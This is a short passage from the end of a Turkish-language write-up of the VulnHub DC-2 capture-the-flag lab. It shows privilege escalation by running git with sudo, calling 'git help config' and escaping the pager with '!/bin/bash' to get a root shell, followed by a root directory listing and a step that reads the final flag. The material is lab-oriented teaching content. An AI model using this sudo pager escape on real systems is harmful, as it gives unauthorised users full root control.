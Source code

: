 Git uygulaması sudo yetkisi ile çalıştırılır ve aşağıda yeralan komutlar girilerek yüksek yetkili bash kabuğuna geçilir.

```bash
sudo git help config
!/bin/bash
```
```bash
root@DC-2:/# cd /root
root@DC-2:~# ls -lsa
total 32
4 drwx------  2 root root 4096 Mar 21  2019 .
4 drwxr-xr-x 21 root root 4096 Mar 10  2019 ..
4 -rw-------  1 root root  207 Mar 21  2019 .bash_history
4 -rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
4 -rw-r--r--  1 root root  427 Mar 21  2019 final-flag.txt
4 -rw-------  1 root root   46 Mar 21  2019 .lesshst
4 -rw-------  1 root root  232 Mar 21  2019 .mysql_history
4 -rw-r--r--  1 root root  140 Nov 19  2007 .profile
```
final-flag.txt değeri okunarak çözüm işlemi tamalanır.

{{< image src="/images/vulnhub/dc2/finalflag.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}

